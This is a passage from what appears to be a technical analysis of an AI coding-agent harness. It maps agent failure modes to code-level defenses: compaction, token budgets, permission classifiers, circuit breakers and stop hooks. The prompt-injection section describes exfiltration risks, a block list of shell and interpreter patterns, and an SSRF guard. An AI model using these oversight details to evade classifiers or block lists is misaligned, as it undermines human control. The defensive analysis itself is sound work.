```typescript
// src/query/tokenBudget.ts:L22-L43 — Budget decision types
type ContinueDecision = {
  action: 'continue'
  nudgeMessage: string
  continuationCount: number
  pct: number
  turnTokens: number
  budget: number
}

type StopDecision = {
  action: 'stop'
  completionEvent: {
    continuationCount: number
    pct: number
    turnTokens: number
    budget: number
    diminishingReturns: boolean
    durationMs: number
  } | null
}

export type TokenBudgetDecision = ContinueDecision | StopDecision
```

The `DenialTrackingState` is another critical contract — it tracks how often permission classifiers deny operations, with circuit-breaker limits that force a fallback to interactive prompting:

```typescript
// src/utils/permissions/denialTracking.ts:L7-L15 — Denial tracking with circuit breaker
export type DenialTrackingState = {
  consecutiveDenials: number
  totalDenials: number
}

export const DENIAL_LIMITS = {
  maxConsecutive: 3,
  maxTotal: 20,
} as const
```

The `AutoCompactTrackingState` tracks compaction health across turns, including a consecutive-failure circuit breaker that prevents infinite compaction retry loops:

```typescript
// src/services/compact/autoCompact.ts:L51-L60 — Autocompact tracking with failure counter
export type AutoCompactTrackingState = {
  compacted: boolean
  turnCounter: number
  turnId: string
  consecutiveFailures?: number
}
```

The `CompactionResult` interface (defined in Chapter 28, "Data structures and contracts" at `src/services/compact/compact.ts:L299-L310`) governs what a compaction pass produces -- a boundary marker, summary messages, preserved attachments, and optional preserved segments. It is the convergence point for all compaction stages that produce model-visible output.

The `StoredCostState` in `src/cost-tracker.ts:L71-L80` captures what persists across session boundaries for cost tracking — a key defense against both cost explosion (6.11) and compounding bugs (6.9):

```typescript
// src/cost-tracker.ts:L71-L80 — Stored cost state for session persistence
type StoredCostState = {
  totalCostUSD: number
  totalAPIDuration: number
  totalAPIDurationWithoutRetries: number
  totalToolDuration: number
  totalLinesAdded: number
  totalLinesRemoved: number
  lastDuration: number | undefined
  modelUsage: { [modelName: string]: ModelUsage } | undefined
}
```

## Control flow

The overall control flow for failure-mode defense runs through the query loop on every turn. The loop has four major decision points that correspond to different failure-mode clusters:

```mermaid
flowchart TD
    A[Query Loop Iteration] --> B{Token Budget Check}
    B -->|under 90%| C[Continue with Nudge]
    B -->|over 90% or diminishing| D[Stop Loop]
    A --> E{Autocompact Needed?}
    E -->|yes| F[Session Memory Compact]
    F -->|fails| G[Full Compact Conversation]
    G -->|3+ consecutive fails| H[Circuit Breaker: Stop Trying]
    E -->|no| I[Proceed with Tools]
    I --> J{Tool Dispatch}
    J --> K[PreToolUse Hooks]
    K --> L{Permission Check}
    L -->|classifier deny 3+| M[Fallback to Interactive Prompt]
    L -->|allow| N[Execute Tool]
    N --> O[PostToolUse Hooks]
    O --> P[Stop Hooks]
    P --> Q{Blocking Errors?}
    Q -->|yes| R[Return Errors, Prevent Continuation]
    Q -->|no| S[Next Iteration]
```

The token budget check itself is a concise function that detects both threshold breaches and diminishing returns — the latter being cc's defense against infinite loops where the model keeps working but makes no forward progress:

```typescript
// src/query/tokenBudget.ts:L45-L93 — Token budget check with diminishing-returns detection
export function checkTokenBudget(
  tracker: BudgetTracker,
  agentId: string | undefined,
  budget: number | null,
  globalTurnTokens: number,
): TokenBudgetDecision {
  if (agentId || budget === null || budget <= 0) {
    return { action: 'stop', completionEvent: null }
  }

  const turnTokens = globalTurnTokens
  const pct = Math.round((turnTokens / budget) * 100)
  const deltaSinceLastCheck = globalTurnTokens - tracker.lastGlobalTurnTokens

  const isDiminishing =
    tracker.continuationCount >= 3 &&
    deltaSinceLastCheck < DIMINISHING_THRESHOLD &&
    tracker.lastDeltaTokens < DIMINISHING_THRESHOLD

  if (!isDiminishing && turnTokens < budget * COMPLETION_THRESHOLD) {
    tracker.continuationCount++
    tracker.lastDeltaTokens = deltaSinceLastCheck
    tracker.lastGlobalTurnTokens = globalTurnTokens
    return {
      action: 'continue',
      nudgeMessage: getBudgetContinuationMessage(pct, turnTokens, budget),
      continuationCount: tracker.continuationCount,
      pct, turnTokens, budget,
    }
  }

  if (isDiminishing || tracker.continuationCount > 0) {
    return {
      action: 'stop',
      completionEvent: {
        continuationCount: tracker.continuationCount,
        pct, turnTokens, budget,
        diminishingReturns: isDiminishing,
        durationMs: Date.now() - tracker.startedAt,
      },
    }
  }

  return { action: 'stop', completionEvent: null }
}
```

Notice the `COMPLETION_THRESHOLD = 0.9` constant at `src/query/tokenBudget.ts:L3` — the loop stops when 90% of the budget is consumed. The `DIMINISHING_THRESHOLD = 500` at `src/query/tokenBudget.ts:L4` catches the case where the model is technically still under budget but burning tokens without producing useful output. These two thresholds together address both 6.7 (infinite loops) and 6.11 (cost explosion).

## Edge cases and failure modes

### 6.1 Context Rot

**Symptom**: Performance degrades 30%+ when key content falls in mid-window positions. The agent re-solves problems, contradicts itself, and loses track of goals (HER §6.1).

**cc's defense**: Five-stage compaction hierarchy — the single deepest defense cc has against any failure mode:

1. **`<history_snip>`**: The message layer in `src/utils/messages.ts` trims old messages before they enter the API request. This is the cheapest and earliest stage.

2. **Microcompact**: The `microcompactMessages` function in `src/services/compact/microCompact.ts:L253-L289` clears old tool results without invoking the model — replacing them with `[Old tool result content cleared]` markers. The `COMPACTABLE_TOOLS` set at `src/services/compact/microCompact.ts:L41-L50` lists which tools can be safely trimmed: FileRead, Bash, Grep, Glob, WebSearch, WebFetch, FileEdit, FileWrite.

3. **Context collapse**: Feature-gated by `feature('CONTEXT_COLLAPSE')`. When enabled, provides aggressive 90% commit / 95% blocking-spawn behavior — a more radical form of context management that owns the headroom problem entirely.

4. **Autocompact**: The `shouldAutoCompact` function in `src/services/compact/autoCompact.ts:L160-L238` proactively fires when token usage crosses the threshold (effective context window minus a 13,000-token buffer). The `compactConversation` function in `src/services/compact/compact.ts:L387-L399` invokes the model to produce a summary.

5. **Hard reset**: The final escape when all other stages fail.

**Circuit breaker**: When compaction itself fails repeatedly (e.g., the conversation is irrecoverably over the limit), the `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3` circuit breaker in `src/services/compact/autoCompact.ts:L70` stops retrying. The comment in the source is revealing: "1,279 sessions had 50+ consecutive failures (up to 3,272) in a single session, wasting ~250K API calls/day globally." This is a production-hardened defense, not a theoretical one.

**Observation masking**: The microcompact path implements a form of observation masking — clearing old tool results while preserving the decision-relevant structure. The `estimateMessageTokens` function in `src/services/compact/microCompact.ts:L164-L205` computes how many tokens are saved, and the `stripImagesFromMessages` function in `src/services/compact/compact.ts:L145-L200` replaces image blocks with `[image]` text markers before compaction to avoid hitting the prompt-too-long limit on the compaction API call itself.

### 6.2 Premature Completion

**Symptom**: Agent declares work done too early (HER §6.2). Distinct from 6.17 (specification gaming) — the agent stops *early*, not *wrong*.

**cc's defense**: Prompt-level. The system prompt in `src/constants/prompts.ts` contains instructions like "ONLY mark a task as completed when you have FULLY accomplished it" and "If you encounter errors, blockers, or cannot finish, keep the task as in_progress." The `TodoWriteTool` prompt in `src/tools/TodoWriteTool/prompt.ts` reinforces: "Exactly ONE task must be in_progress at any time — not less, not more."

The `Stop` hooks in `src/query/stopHooks.ts:L65-L81` provide a structural escape: external evaluators can block continuation if the work is incomplete. The `preventContinuation` flag at `src/query/stopHooks.ts:L269-L271` allows hooks to force the loop to stop when quality gates fail.

The premature-completion failure mode is especially common when the model encounters partial success — a test suite that passes on 8 of 10 cases, or a feature that works for the happy path but not for edge cases. The model reasons that "most of the work is done" and declares completion, leaving the remaining cases unaddressed. The `TaskUpdateTool` in `src/tools/TaskUpdateTool/TaskUpdateTool.ts` provides a status field with states `pending`, `in_progress`, and `completed`, but the transition from `in_progress` to `completed` is entirely at the model's discretion — no structural gate validates that the work is actually done.

A concrete structural defense would be a "completion checklist" pattern: the `EnterPlanModeTool` already forces the model to articulate a plan before acting, and the plan could be structured as a list of acceptance criteria. A stop hook could then compare the stated plan against the actual changes before allowing the task to be marked complete. The `checkTodoCompletion` utility pattern — where each plan item starts as `pending` and must be explicitly marked `completed` — is a partial implementation of HER's recommended JSON feature list, but it relies on the model honestly evaluating each item rather than on independent verification.

**Gap**: No structural mechanism enforces completeness. The model can still declare success prematurely. A JSON feature list with all items initially marked "failing" (the HER fix) would be a structural defense cc does not implement. The stop-hook mechanism is available but not used by default for completeness checking.

### 6.3 Self-Evaluation Bias

**Symptom**: Agent rates own work too generously (HER §6.3). This is distinct from 6.2 — the agent may do significant work and then evaluate it as better than it is.

**cc's defense**: Partial. The `Stop` hooks in `src/query/stopHooks.ts:L65-L81` can run external evaluators that block continuation if quality is insufficient. The `code-reviewer` subagent type (available via `AgentTool`) provides a fresh-context evaluation — a concrete implementation of HER's recommendation for "a separate evaluator agent in a fresh context window." The generator-evaluator pattern in the coordinator layer (`src/coordinator/coordinatorMode.ts`) separates production from evaluation.

The `executeStopHooks` function at `src/query/stopHooks.ts:L180-L189` runs all configured stop hooks and collects `blockingErrors`. If any hook returns a blocking error, the query loop stops and the errors are surfaced. The `handleStopHooks` generator at `src/query/stopHooks.ts:L65-L81` yields progress messages as hooks execute, providing visibility into the evaluation process.

Self-evaluation bias interacts with 6.2 (premature completion) in a compounding way: the model not only stops early but also rates the partial work as high quality. This creates a double blind spot where the agent believes it has done excellent work when it has actually done incomplete work. The `TaskUpdateTool` metadata field in `src/tools/TaskUpdateTool/TaskUpdateTool.ts` could theoretically carry structured quality scores, but no such scoring is implemented — the model marks tasks as `completed` without any objective quality metric.

The coordinator layer's generator-evaluator separation provides the most promising structural defense. When a `coordinator` agent dispatches a `code-reviewer` subagent via `src/tools/AgentTool/AgentTool.tsx`, the reviewer operates in an entirely fresh context window with no access to the producer's chain-of-thought. This isolation is critical: a reviewer that can see the producer's reasoning is likely to be anchored by it, reproducing the same biases. The `AgentTool`'s `subagent_type` parameter at `src/tools/AgentTool/AgentTool.tsx` enables this pattern, and the `code-reviewer` type carries specialized system prompts for evaluating code quality independently.

**Gap**: Not enforced by default. Self-evaluation bias is only mitigated when users configure stop hooks or explicitly dispatch evaluator agents. There is no built-in "fresh context evaluator" that runs automatically on task completion.

### 6.4 Placeholder Implementations

**Symptom**: Agents default to stubs because compiling triggers reward signals (HER §6.4). The agent writes placeholder comments like `// implement later` and declares success.

**cc's defense**: Prompt-level. The system prompt includes anti-placeholder instructions: "Do not create helpers, utilities, or abstractions for one-time operations" and "Don't add features, refactor code, or make 'improvements' beyond what was asked." More specifically, the prompt contains: "Avoid backwards-compatibility hacks like renaming unused _vars, re-exporting types, adding // removed comments for removed code, etc. If you are certain that something is unused, you can delete it completely."

**Gap**: No structural enforcement. The model can still produce stub implementations. There is no automated test-execution gate that validates code actually runs. HER's fix — explicit anti-placeholder instructions ("DO NOT IMPLEMENT PLACEHOLDER OR SIMPLE IMPLEMENTATIONS") — is essentially what cc already does at the prompt level, and it remains imperfect.

The deeper problem is that placeholder implementations are rational model behavior: the model receives reward signals for completing tool calls (the loop progresses) rather than for producing correct output (which requires external validation). The `PostToolUse` hooks in `src/services/tools/toolHooks.ts` could theoretically validate that file contents are non-stub after a `FileWriteTool` call, but no such hook is bundled by default. A concrete mitigation would be a stop hook that runs `grep -r "implement later\|implement me\|placeholder"` on changed files and returns a blocking error if matches are found — turning a prompt-level defense into a structural one at low implementation cost.

### 6.5 Context Anxiety

**Symptom**: Models prematurely wrap up near perceived context limits (HER §6.5). This is distinct from 6.1 (context rot) — the agent doesn't lose information, it loses confidence.

**cc's defense**: The compaction hierarchy is the primary defense. By proactively compacting before the model perceives the limit, cc reduces the chance that the model rushes to conclude. The `shouldAutoCompact` function in `src/services/compact/autoCompact.ts:L160-L238` triggers well before the hard limit, giving the model room to work. The `calculateTokenWarningState` function in `src/services/compact/autoCompact.ts:L93-L145` provides graduated warnings that surface context-pressure information to the UI:

- `isAboveWarningThreshold`: fires 20K tokens before the threshold
- `isAboveErrorThreshold`: fires 20K tokens before the threshold (separate tier)
- `isAboveAutoCompactThreshold`: fires when autocompact should activate
- `isAtBlockingLimit`: the hard wall — no more queries can be sent

The `POST_COMPACT_TOKEN_BUDGET = 50_000` constant in `src/services/compact/compact.ts:L123` ensures that after compaction, the model has a generous token budget to continue working without anxiety. The `POST_COMPACT_MAX_TOKENS_PER_FILE = 5_000` and `POST_COMPACT_SKILLS_TOKEN_BUDGET = 25_000` constants at `src/services/compact/compact.ts:L124-L130` control how much context is re-injected post-compaction, preventing the anxiety cycle from recurring immediately.

**HER's fix** — "context resets with structured handoffs rather than pushing to the limit" — is exactly what cc's compaction boundary system implements. The `createCompactBoundaryMessage` function in `src/utils/messages.ts` marks where compaction occurred, and the `getMessagesAfterCompactBoundary` function retrieves only the post-compaction messages, providing a clean handoff point.

### 6.6 Silent Failures

**Symptom**: Agent proceeds after tool errors as if successful (HER §6.6). This is the "optimistic execution" failure — the model assumes tools worked.

**cc's defense**: The tool dispatch pipeline in `src/services/tools/toolExecution.ts` wraps every tool call in structured error handling. The `classifyToolError` function at `src/services/tools/toolExecution.ts:L150` categorizes errors into telemetry-safe strings — critical for observability, since in minified/external builds, `error.constructor.name` is mangled into short identifiers like "nJT" or "Chq".

Tool results include exit codes and stderr from Bash commands. The `PostToolUse` hooks in `src/services/tools/toolHooks.ts` can inspect results and flag silent failures. The `withMemoryCorrectionHint` utility in `src/utils/messages.ts` appends correction hints to tool results that appear to have failed silently.

The permission system also acts as a defense: `useCanUseTool` in `src/hooks/useCanUseTool.tsx:L32-L191` validates tool inputs before execution, catching malformed parameters that could lead to silent failures. The `handleInteractivePermission` function at `src/hooks/useCanUseTool.tsx:L160-L167` surfaces permission decisions to the user.

The silent-failure problem is amplified by the model's tendency toward optimistic interpretation. When a Bash command returns exit code 1 but the stderr message is ambiguous (e.g., a compiler warning that includes the word "error" in a non-fatal context), the model may interpret the result as a success. The `classifyToolError` function at `src/services/tools/toolExecution.ts:L150` categorizes errors into telemetry-safe strings, but the categorization is for observability, not for blocking the model from proceeding on failure. The `BashTool` prompt in `src/tools/BashTool/prompt.ts` instructs the model to pay attention to exit codes, but this is prompt-level guidance without structural enforcement.

The `FileWriteTool` in `src/tools/FileWriteTool/FileWriteTool.ts` has a partial structural defense: it returns the full content that was written, allowing the model to verify the write succeeded. The `FileEditTool` goes further with its mandatory pre-read requirement — the tool must first read the file to confirm the old content matches before attempting an edit. This "verify-before-mutate" pattern is a structural defense against silent edit failures, but it only covers file operations, not the broader universe of tool calls.

**Gap**: There is no universal "structured output validation after every tool call" as HER recommends. MCP tool results and some native tool results can still be misinterpreted by the model. The model can read a non-zero exit code and still proceed as if the operation succeeded.

### 6.7 Infinite Loops

**Symptom**: Retry without progress (HER §6.7). The agent keeps calling tools but makes no forward progress.

**cc's defense**: Multiple layers, each targeting a different manifestation of the loop:

1. **Token budget diminishing-returns detection** in `src/query/tokenBudget.ts:L59-L62`: If three consecutive turns produce fewer than 500 tokens each, the loop stops with `diminishingReturns: true`. The 3-turn minimum prevents false positives on legitimate short turns.

2. **Autocompact circuit breaker** in `src/services/compact/autoCompact.ts:L70`: `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3` prevents the compaction system from entering its own infinite loop — a real production issue that wasted ~250K API calls/day.

3. **Permission denial tracking** in `src/utils/permissions/denialTracking.ts:L40-L45`: After 3 consecutive denials or 20 total denials, the `shouldFallbackToPrompting` function returns `true`, breaking auto-approve loops. The function at `src/utils/permissions/denialTracking.ts:L40-L44` implements both a consecutive-denial limit (catches tight loops) and a total-denial limit (catches slow drift).

4. **Auto-mode circuit breaker** in `src/utils/permissions/autoModeState.ts:L9`: `autoModeCircuitBroken` can be set remotely via GrowthBook to kick the agent out of auto mode when it detects loop-like behavior. The `setAutoModeCircuitBroken` function at `src/utils/permissions/autoModeState.ts:L24-L26` is called by the async `verifyAutoModeGateAccess` check when it reads a fresh `tengu_auto_mode_config.enabled === 'disabled'` from GrowthBook.

5. **Stop hooks** in `src/query/stopHooks.ts:L269-L271`: The `preventContinuation` flag allows external hooks to break the query loop when they detect repetitive behavior.

### 6.8 Tool Explosion

**Symptom**: Too many tools degrade selection accuracy (HER §6.8). The model becomes confused about which tool to use.

**cc's defense**: The `ToolSearch` progressive expansion system. Deferred tools are not included in the initial prompt but loaded on demand via the `ToolSearchTool`. The `isDeferredTool` function in `src/tools/ToolSearchTool/prompt.ts` checks whether a tool is deferred. The `extractDiscoveredToolNames` function in `src/utils/toolSearch.ts` tracks which tools have been discovered, so they can be added to the context on subsequent turns.

The `COMPACTABLE_TOOLS` set in `src/services/compact/microCompact.ts:L41-L50` lists the core set that's always available (FileRead, Bash, Grep, Glob, etc.), while MCP tools and skill-loaded tools are surfaced lazily. The `getAllBaseTools` function in `src/tools.ts` returns the baseline set that's always included in the prompt.

The `formatDeferredToolLine` function in `src/tools/ToolSearchTool/prompt.ts` generates the prompt text that tells the model about available-but-not-yet-loaded tools, keeping the tool catalog small while preserving discoverability.

**Gap**: The base tool count is still significant (~20+), and when MCP servers add their tools, the total can easily exceed the HER-recommended <20 threshold. The `ToolSearch` system helps but does not enforce a hard cap. The `isToolSearchEnabledOptimistic` function in `src/utils/toolSearch.ts` provides a fast check for whether ToolSearch is available, but it's a read-only query, not a limit.

### 6.9 Compounding Bugs Across Sessions

**Symptom**: New session builds on broken state from previous session (HER §6.9).

**cc's defense**: Session persistence and resume in `src/utils/sessionStorage.ts` preserves conversation state as JSONL entries with tombstones. The `restoreCostStateForSession` function in `src/cost-tracker.ts:L130-L137` restores accumulated cost data, ensuring that cost tracking continues correctly across session boundaries. The `saveCurrentSessionCosts` function in `src/cost-tracker.ts:L143-L175` persists costs to project config before session switches.

The memdir system in `src/memdir/memdir.ts` persists learned information across sessions, which helps the agent remember what was done previously. The `findRelevantMemories` function in `src/memdir/findRelevantMemories.ts` retrieves project-relevant memories at session start, providing a partial baseline of prior context.

The `restoreCostStateForSession` function has an important safety check at `src/cost-tracker.ts:L93-L95`: it only returns cost data if the session ID matches the last saved session. This prevents stale cost data from a different session from being loaded into the current session.

**Gap**: There is no automatic "baseline verification at session start before any new work" as HER recommends. A resumed session trusts that the prior session's state was correct. If the prior session ended with broken code, the new session starts from that broken state. The memdir system provides a partial record of what was done, but not a verification that what was done was correct.

The compounding-bugs failure mode is particularly insidious because it is self-reinforcing: a session that introduces a bug produces broken output, which becomes the input to the next session, which builds on the broken output and introduces further bugs. The `sessionStoragePortable.ts` module in `src/utils/sessionStoragePortable.ts` provides portable session formats, but portability without verification makes it easier to propagate broken state across environments. A structural fix would require a "session health check" — an automated verification step (e.g., running the project's test suite, checking for compilation errors, or verifying lint passes) that runs before the agent begins new work in a resumed session. The `DoctorScreen` in cc's diagnostics module provides a model for what this verification could look like, but it is a user-invoked diagnostic, not an automatic session-start gate.

### 6.10 Yak Shaving / Scope Creep

**Symptom**: Agent wanders into tangential fixes (HER §6.10).

**cc's defense**: The `plan mode` system in `src/tools/EnterPlanModeTool/EnterPlanModeTool.ts` restricts the agent to read-only operations until the plan is approved. The `ExitPlanModeV2Tool` in `src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts` requires the agent to present a plan and get user approval before making any changes.

The `TodoWriteTool` enforces "Exactly ONE task must be in_progress at any time — not less, not more." The system prompt includes: "Don't add features, refactor code, or make 'improvements' beyond what was asked. A bug fix doesn't need surrounding code cleaned up. A simple feature doesn't need extra configurability."

The `EnterWorktreeTool` in `src/tools/EnterWorktreeTool/EnterWorktreeTool.ts` provides an isolation mechanism — the agent can work on a tangential fix in a separate worktree without polluting the main branch.

**Gap**: These are prompt-level and workflow constraints. In auto mode, there is no structural mechanism that prevents the agent from expanding scope. HER's fix — "strict single-task-per-session constraint, explicit task boundaries" — is partially implemented by TodoWrite but not structurally enforced.

The yak-shaving failure mode is amplified by the tool system's capability: when the agent can read, write, and execute code in a single session, the temptation to "fix one more thing" is high. The `EnterWorktreeTool` provides a structural defense by isolating tangential work, but the agent must choose to use it — there is no automatic detection that scope has drifted. A more robust defense would track the ratio of tool calls directly related to the stated task versus those tangentially related, and surface a warning when the ratio drops below a threshold. The `SendMessageTool` in `src/tools/SendMessageTool/SendMessageTool.ts` could serve as an implicit scope-check: in team configurations, teammates can observe and flag scope drift that the primary agent misses.

### 6.11 Cost Explosion / Runaway Spending

**Symptom**: Agents in infinite loops or multi-agent chains rack up significant costs (HER §6.11). Token costs in multi-agent systems compound non-linearly.

**cc's defense**: The `cost-tracker.ts` module provides real-time token metering. The `addToTotalSessionCost` function in `src/cost-tracker.ts:L278-L323` accumulates cost per model, per session. It handles per-model usage tracking, advisor costs, and both fast-mode and standard-mode accounting:

```typescript
// src/cost-tracker.ts:L278-L285 — Per-session cost accumulation
export function addToTotalSessionCost(
  cost: number,
  usage: Usage,
  model: string,
): number {
  const modelUsage = addToTotalModelUsage(cost, usage, model)
  addToTotalCostState(cost, modelUsage, model)
```

The `formatTotalCost` function in `src/cost-tracker.ts:L228-L244` displays per-model breakdowns including input tokens, output tokens, cache read/write tokens, and USD cost. The `getStoredSessionCosts` and `saveCurrentSessionCosts` functions in `src/cost-tracker.ts:L87-L175` persist costs to project config so they survive session switches.

The token budget system in `src/query/tokenBudget.ts:L45-L93` provides a hard stop when token consumption exceeds the budget. The `DIMINISHING_THRESHOLD = 500` constant in `src/query/tokenBudget.ts:L4` detects when the model is burning tokens without progress — a key signal for cost explosion.

```mermaid
flowchart TD
    A[API Response] --> B[addToTotalSessionCost]
    B --> C[Per-Model Cost Accumulation]
    C --> D[Real-Time Cost Display]
    C --> E[Session Cost Persistence]
    E --> F[restoreCostStateForSession on Resume]
    A --> G{Token Budget Check}
    G -->|under 90%| H[Continue]
    G -->|diminishing returns| I[Stop: Budget Exhausted]
    G -->|over 90%| I
```

**Gap**: There is no per-session or per-task cost cap that hard-stops execution. The token budget acts as a soft cap (it can be overridden), and there is no anomaly detection on spend rate. HER specifically warns: "For multi-hour tasks, this is arguably the #1 operational risk." Per CIO research cited in HER, enterprise budgets underestimate AI agent TCO by 40-60%.

### 6.12 Hallucinated Tool Calls

**Symptom**: Agent fabricates tool parameters, calls wrong APIs, or reports success on actions that silently failed (HER §6.12). Distinct from 6.6 (silent failures) — the agent *invents* tool calls that look structurally valid but are semantically wrong.

**cc's defense**: Zod schema validation on all tool inputs. The `buildTool` helper in `src/Tool.ts` defines Zod schemas that are validated before `call()` executes. The `formatZodValidationError` function in `src/utils/toolErrors.ts` provides human-readable error messages when validation fails. The `validateInput` step in the tool dispatch pipeline catches parameter mismatches before the tool is invoked.

The `useCanUseTool` hook in `src/hooks/useCanUseTool.tsx:L32-L191` validates tool inputs against the tool's schema before execution. The `handleInteractivePermission` function at `src/hooks/useCanUseTool.tsx:L160-L167` surfaces permission decisions to the user, providing a human check on semantically suspect operations.

The `FileEditTool` in `src/tools/FileEditTool/FileEditTool.ts` requires a pre-read before editing — this partially addresses semantic validation by ensuring the file exists and has the expected content before attempting an edit.

**Gap**: Schema validation catches structural errors (wrong types, missing fields) but not semantic errors (correctly shaped but semantically wrong parameters). For example, editing a file that doesn't exist is structurally valid but semantically wrong. There is no universal semantic validation layer. HER's fix — "semantic validation for critical operations (e.g., verify file exists before editing); replay logs for post-hoc audit" — is only partially implemented for file operations.

The hallucinated-tool-call failure mode is especially dangerous in MCP contexts, where tool schemas are provided by external servers that cc does not control. An MCP server can define a tool with a schema that accepts arbitrary string parameters, and the model may fill those parameters with plausible-sounding but incorrect values. The `MCPTool` wrapper in `src/tools/MCPTool/MCPTool.ts` validates against the server-provided schema, but if the schema itself is permissive (e.g., `type: "string"` without constraints), there is no additional validation layer. The deferred-loading mechanism in `ToolSearchTool` mitigates tool-explosion risks but does not add semantic validation to the tools it discovers.

### 6.13 Security Vulnerabilities / Prompt Injection

**Symptom**: Malicious content in files, tool outputs, or user inputs manipulates agent behavior (HER §6.13). Can lead to data exfiltration, unauthorized operations, or system prompt leakage.

**cc's defense**: Multi-layer defense-in-depth:

1. **Permission model** in `src/utils/permissions/permissions.ts`: Six permission modes (default, plan, acceptEdits, bypassPermissions, dontAsk, auto) with graduated access. The `hasPermissionsToUseTool` function at `src/hooks/useCanUseTool.tsx:L37` checks permissions before every tool call.

2. **Bash classifier** in `src/utils/permissions/bashClassifier.ts`: Classifies commands into risk bands (read, write, destructive) to drive permission decisions. The `classifyBashCommand` function at `src/utils/permissions/bashClassifier.ts:L40-L48` returns a `ClassifierResult` with confidence levels.

3. **Dangerous patterns** in `src/utils/permissions/dangerousPatterns.ts:L44-L80`: Hard-coded lists of code-execution entry points that are stripped from auto-mode allow rules. The `DANGEROUS_BASH_PATTERNS` array includes interpreters (`python`, `node`, `ruby`, `perl`), package runners (`npx`, `bunx`), shells (`bash`, `sh`, `zsh`), and escalation commands (`sudo`, `eval`, `exec`). The `CROSS_PLATFORM_CODE_EXEC` list at `src/utils/permissions/dangerousPatterns.ts:L18-L42` is shared between Bash and PowerShell variants to prevent drift.

4. **SSRF guard** in `src/utils/hooks/ssrfGuard.ts:L42-L53`: Blocks private and link-local addresses to prevent HTTP hooks from reaching cloud metadata endpoints (169.254.169.254) or internal infrastructure. The `isBlockedAddress` function checks IPv4 and IPv6 ranges, with loopback explicitly allowed for local dev hooks.

5. **Denial tracking** in `src/utils/permissions/denialTracking.ts:L40-L45`: Falls back to interactive prompting after repeated classifier denials, preventing an attacker from finding and exploiting auto-approve rules.

6. **Auto-mode circuit breaker** in `src/utils/permissions/autoModeState.ts:L9`: The `autoModeCircuitBroken` flag can be set remotely via GrowthBook to kick the agent out of auto mode when a security threat is detected.

**Gap**: External content (files, web pages, MCP responses) is not universally sanitized before being injected into the model context. The SSRF guard only protects HTTP hooks, not WebFetch results. HER notes that 73% of production AI deployments were affected by indirect prompt injection in 2025. The system prompt includes instructions to treat tool outputs cautiously, but this is prompt-level defense, not structural sanitization.

### 6.14 Model Regression from Provider Updates

**Symptom**: Provider model updates break harness behavior silently (HER §6.14). The harness was tuned for specific model behaviors that changed.

**cc's defense**: Partial. The `categorizeRetryableAPIError` function in `src/services/api/errors.ts` classifies API errors and handles model-behavior changes gracefully. The `withRetry` system in `src/services/api/withRetry.ts` provides retry logic with exponential backoff. The `getRetryDelay` function implements jittered delays.

The `isPromptTooLongMessage` function in `src/services/api/errors.ts:L64-L77` detects prompt-too-long errors from the API, which can change in wording across model updates. The `parsePromptTooLongTokenCounts` function at `src/services/api/errors.ts:L85-L96` extracts actual and limit token counts from error messages, using a lenient regex that handles different casing and formatting across providers.

The GrowthBook feature flags in `src/services/analytics/growthbook.ts` provide a remote kill-switch mechanism — feature flags can be toggled to change cc's behavior in response to model regressions without requiring a client update.

**Gap**: There is no regression test suite that validates harness behavior against model changes. Model versions are not pinned — cc always uses the latest model. When Anthropic updates a model, cc's behavior can silently change. HER's fix — "regression test suite for the harness against model changes; pin model versions where stability matters; monitor key metrics after provider updates" — is not implemented.

This gap is a consequence of cc's deployment model: as a client application that connects to a hosted API, cc does not control the model version. The `model` parameter in API requests can specify a model family (e.g., `claude-sonnet-4-20250514`), but the underlying weights and behavior can change between announced releases. The GrowthBook feature-flag system provides a partial mitigation — operators can disable features that break after a model change — but this is reactive rather than proactive. The `tengu_model_config` GrowthBook flag can even redirect cc to a different model family entirely, providing an emergency escape valve. For teams building long-running agents on top of cc, the recommended approach is to pin model versions in the configuration and maintain a small regression test suite that validates critical workflows after any model change.

### 6.15 Data Leakage Between Contexts

**Symptom**: Information leaks between sessions, sub-agents, or through file-based communication (HER §6.15).

**cc's defense**: Subagent context isolation. The `AgentTool` in `src/tools/AgentTool/AgentTool.tsx` spawns subagents with isolated context windows — the parent's conversation is not visible to the child. Forked subagents in `src/tools/AgentTool/forkSubagent.ts` run in separate processes with separate memory, communicating only via IPC. The `createCacheSafeParams` function in `src/utils/forkedAgent.ts` ensures that forked agents receive a safe snapshot rather than mutable references.

The `stripSignatureBlocks` function in `src/utils/messages.ts` removes thinking blocks before they're passed to subagents, preventing the parent's chain-of-thought from leaking into the child's context. The `normalizeMessagesForAPI` function in `src/utils/messages.ts` sanitizes messages before API submission.

The worktree system in `src/utils/worktree.ts` provides directory-level isolation — subagents working in different worktrees cannot accidentally read each other's files in the working directory.

The data-leakage risk is not theoretical. When a `coordinator` agent dispatches multiple subagents via `src/tools/AgentTool/AgentTool.tsx`, each subagent operates in the same project directory. If one subagent writes intermediate results to a temporary file (e.g., `/tmp/analysis-output.json`), another subagent running concurrently or subsequently can read that file — even though the coordinator did not intend for the two agents to share that data. This is a form of implicit communication that bypasses the structured `SendMessageTool` channel.

The worktree isolation in `src/utils/worktree.ts` mitigates this for the specific case of git-tracked projects: subagents in separate worktrees have separate working directories, so file-based leakage is contained to the shared filesystem roots (e.g., `/tmp`, environment variables). However, worktrees are only created when the agent explicitly chooses to use the `EnterWorktreeTool`, and the default subagent dispatch path in `src/tools/AgentTool/runAgent.ts` does not create worktrees automatically.

HER's recommended fix — "context isolation via separate file namespaces; cleanup protocols; avoid logging sensitive data in progress files; use ephemeral directories for sensitive work" — requires both directory isolation and content sanitization. cc implements directory isolation partially (via worktrees) but has no content sanitization layer that strips sensitive data from files before they become visible to other agents. The memdir system in `src/memdir/memdir.ts` categorizes memories by type (user, feedback, project, reference) but does not enforce access controls between agents — all memories in the project directory are visible to all agents.

**Gap**: File-based communication is the recommended pattern for multi-agent coordination (per HER §9.3), and files inherently persist to disk. Without cleanup protocols, sensitive data from one task context can bleed into another. There is no automatic file-namespace isolation between subagents sharing the same project directory. The `SendMessageTool` in `src/tools/SendMessageTool/SendMessageTool.ts` provides structured communication, but the underlying file system is shared.

### 6.16 Checkpoint-Restore Side Effects

**Symptom**: LLM agents re-synthesize subtly different requests after restore, causing duplicate payments, unauthorized credential reuse, and irreversible side effects (HER §6.16).

